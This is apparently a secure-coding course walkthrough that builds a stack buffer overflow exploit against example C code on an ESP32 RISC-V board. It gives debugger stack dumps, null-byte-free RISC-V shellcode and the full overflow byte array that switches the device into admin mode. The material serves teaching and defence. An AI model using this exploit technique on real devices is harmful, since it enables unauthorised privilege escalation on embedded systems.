

# Secure Coding

# 1. Intro

In this demonstration, we explore one of the most critical and frequently exploited security vulnerabilities in IoT and embedded systems: **buffer overflow attacks**. Building on our earlier discussion about Common Weakness Enumerations (CWEs), we specifically address **CWE-120/121** (buffer overflow), demonstrating how poor coding practices can compromise the security of embedded devices like ESP32.

We will first identify vulnerabilities within example C code, focusing on risky practices such as hard-coded passwords and unsafe string operations (like `strcpy()`) that do not enforce proper bounds checking. This sets the stage to understand how attackers exploit these weaknesses.

Next, we'll dive into the mechanics of a buffer overflow attack by analyzing the stack memory structure, observing how function calls manipulate stack frames, return addresses, and local variables. By carefully studying these stack dynamics using debugging tools, you'll see precisely how an attacker can overwrite critical data—specifically the return address—to inject and execute malicious code.

The demonstration concludes with creating a real buffer overflow exploit. We'll generate a crafted malicious message containing RISC-V assembly instructions designed to compromise the program's execution flow. Importantly, we address common constraints in real-world attacks, such as avoiding null bytes in exploit code. By performing iterative refinements, we'll show how to successfully exploit the vulnerability, changing a device's operational mode to "admin," thus gaining unauthorized access.

By understanding how buffer overflow attacks occur in practice, you'll better appreciate the importance of secure programming practices and defensive coding techniques crucial for developing secure IoT systems.

# 2. Buffer overflow attack walkthrough

## 2.1 Identify vulnerabilities

Checking the example code in this folder:

1. Hard-coded password: if password is cracked, then attacker has access to all devices
2. Buffer overflow vulnerability, strcpy() function does not check bounds

# 2.2 Buffer overflow attack basics

In this case we want to design stack buffer overflow attack. When the example code is executed, each buffer will be allocated space in the stack. Every function has its own stack frame containing return address (to continue after function call is complete), frame pointer and then all function parameters and automatic variables that cannot fit into registers.

### 2.2.1 main function context

To study the code we set breakpoint at main program at the call to vulnerable function:


We are specifically interested in PC (program counter) and SP (stack pointer)


SP points to top of current stack frame, and the **stack grows towards smaller addresses**, so the vulnerable function's stack frame is logically on top of this, but addresswise is precedes this. You can study the the stack content using debugger view like


The important part is that 0x408104b0 is the main function stack top.

For the PC part


You can check the disassembly view (right click on code view and scroll to PC address; for some reason it does not automatically go to right location?)


The important part to see here is that after the vulnerable function call main function continues at **0x4200b788** (so this will be the return address in vulnerable function's stack frame).

### 2.2.2 Vulnerable function context

Setting the next breakpoint into vulnerable function and checking its SP:


So the vulnerable function's stack frame is between 0x40810470 - 0x408104af:

```
>x/30x 0x40810470
0x40810470:	0x00000000	0x4080def8	0x40810570	0x42010af6
0x40810480:	0x40810e84	0x40810490	0x00000002	0x00000000
0x40810490:	0x4201ad08	0x0000000c	0x420192c4	0x00000001
0x408104a0:	0x00000000	0x00000000	0x4201a000	0x4200b788
0x408104b0:	0x42019a70	0x000001b8	0xfe7fffff	0x420113cc
```

Here each row is 16 bytes (byte=char), so the first three rows present the aligned smallbuffer[] (with the message as ASCII characters) and then 4th row is two padding (aligning) bytes, frame pointer and return address. Return address was already identified as 0x4200b788, so that part checks ok.

Use watch window to check addresses of interesting variables


Here the address of adminMode is important: that we want to attack.

## 2.3 Buffer overflow attack code

The idea is to generate message that consists of RISC-V assembly instructions **overwriting the return address**, so that when vulnerable function reaches the return (in attempt to continue at return address in main function) it executes malicious code instead.

A major problem in attack design is that the strcopy() function copies characters until a null byte is met. this means that the **attack code cannot include any commands that contain byte 0x00.**

Since the stack frame is 48+16 = 64 bytes, that will be the message size + terminating NULL to end the string. The malicious stack frame shall have return address that points to stack itself, where the malicious code resides (you should always define stack space as non-executable memory if possible...)

### 2.3.2 First iteration: from C to asm

We'll create general attack code structure using cpulator c compiler, and then later we will fix the 0x00 byte problems.

We want the attack code to change the system to admin mode, and continue from original return address as normally.
Writing a code snippet that does that (ra register should contain return address, and the `ret` instruction is actually `jmp ra`):

```
#define adminMode *(char *)0x4080d4e8
register unsigned int ra __asm__("ra");
void main() {
  adminMode = 1;
  ra = 0x4200b788;
}
```

Fill that to cpulator source code and build. In disassembly view, goto label `main`:


Test the code: after running

- 0x4080d4e8 memory location should contain `1`
- ra contains 0x4200b788

Then, check for 0x00 bytes (divide the 32bit instructions into 4 x 8bytes). Problems:

- `lui a4,1` has 0x00 within
- `lui ra,0x4200b` has 0x00
- `ret` contains two 0x00's

### 2.3.3 Second iteration: refining asm code

Take the compiled code output and feed it back so cpulator as assembly code:

```
.global _start
_start:

  lui	a5,0x4080d
  li  a4,1
  sb	a4,0x4e8(a5)
  lui ra,0x4200b
  addi ra,ra,0x788
  ret
```

build and test (or just compare to previous code).



´modifying the code to get past 0x00 problems:

- `li a4,1` command: should find an alternative way to put immediate value 1 to register 4. After some experimenting found compressed instruction set command `c.li a4,1` that does the same with 16-bit instruction with no 0x00's.
- `ret` command has similar solution `c.jr ra`
- `lui ra,0x4200b` loads given immediate value to most significant bits in ra register. To avoid the 0x00 in immediate value, the following arithmetic solution is found (as in C notation) ra=0; ra=ra+0x42;ra =ra<<24;temp=0xb788;temp=temp>>12;ra=ra+temp;

So the adjusted assembly code is

```
.global _start

  lui	 a5,0x4080d
  c.li a4,1
  sb	 a4,0x4e8(a5)
  sub  ra,ra,ra
  addi ra,ra,0x42
  slli ra,ra,24
  lui t3,0xb7880
  srli t3,t3,16
  add ra,ra,t3
  c.jr ra
```

Unfortunately riscv online compiler cpulator does not support short forms... so lets switch back to esp-idf.

Create a file named `test.S` and in your project, and open `ESP-IDF Terminal` into that folder:

```
PS C:\buffer_attack> riscv32-esp-elf-as.exe -march=rv32imc .\test.S -al
.\test.S: Assembler messages:
.\test.S: Warning: end of file not at end of a line; newline inserted
GAS LISTING .\test.S                    page 1


   1                    .global _start
   2                    _start:
   3
   3 0000 B7D78040              lui      a5,0x4080d
   4 0004 0547                  c.li a4,1
   5 0006 2384E74E              sb       a4,0x4e8(a5)
   6 000a B3801040              sub  ra,ra,ra
   7 000e 93802004              addi ra,ra,0x42
   8 0012 E200                  slli ra,ra,24
   9 0014 370E88B7              lui t3,0xb7880
  10 0018 135E0E01              srli t3,t3,16
  11 001c F290                  add ra,ra,t3
  12 001e 8280                  c.jr ra...
```

Now in opcodes there is new place where there is 0x00, that is `slli ra,ra,24` command. In that case the long 32-bit form would be ok, so lets force long form on that part. Final code:

```
.global _start
_start:

  lui	 a5,0x4080d
  c.li a4,1
  .option norvc
  sb	 a4,0x4e8(a5)
  sub  ra,ra,ra
  addi ra,ra,0x42
  slli ra,ra,24
  lui t3,0xb6e00
  srli t3,t3,16
  add ra,ra,t3
  .option rvc
  c.jr ra
```

```
   1                    .global _start
   2                    _start:
   3 0000 B7D78040              lui      a5,0x4080d
   4 0004 0547                  c.li a4,1
   5                            .option norvc
   6 0006 2384E74E              sb       a4,0x4e8(a5)
   7 000a B3801040              sub  ra,ra,ra
   8 000e 93802004              addi ra,ra,0x42
   9 0012 93908001              slli ra,ra,24
  10 0016 370E88B7              lui t3,0xb7880
  11 001a 135E0E01              srli t3,t3,16
  12 001e B380C001              add ra,ra,t3
  13                            .option rvc
  14 0022 8280                  c.jr ra...
```

No 0x00 bytes in attack code!!!

## 2.4 Preparing the attack message

So in this case the attack message needs to be the size of vulnerable function's stack frame, that is 64 bytes.

- The attack code is 0x22 bytes long i.e. 34 bytes.
- Last bytes in message need to point to start of malicious code = location of smallbuffer = 0x40810470
- Other message byte can be padded with anything but 0x00 bytes

```
char buffer[80] = {
    0xb7,0xd7,0x80,0x40, // lui a5,0x4080d
    0x05,0x47,           // c.li    a4,1
    0x23,0x84,0xe7,0x4e, // sb  a4,0x4e8
    0xb3,0x80,0x10,0x40, // sub ra,ra,ra
    0x93,0x80,0x20,0x04, // addi ra,ra,0x42
    0x93,0x90,0x80,0x01, // slli ra,ra,24
    0x37,0x0e,0x88,0xb7, // lui t3,0xb7880
    0x13,0x5e,0x0e,0x01, // srli t3,t3,16
    0xb3,0x80,0xc0,0x01, // add ra,ra,t3
    0x82,0x80,           // jr ra
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0x01,0x01,0x01, // padding
    0x01,0xa0,0x01,0x42, // fp overwrite (had to change this to 0x01 from 0x00)
    0x70,0x04,0x81,0x40, // overwrites return address to point to code above
    0x00                 // terminating null
};
```

Replace existing buffer definition with this malicious message.  
You should now get the code enter admin mode by malicious message causing buffer overflow!

# 3. Final Notes

This example demonstrated how to build a buffer overflow message to gain unlimited access to ESP32 system. The example was limited to a single file so that both victim code and attack code are in same file. In a more typical case victim code in running on target system and attack code is injected from another connected system.
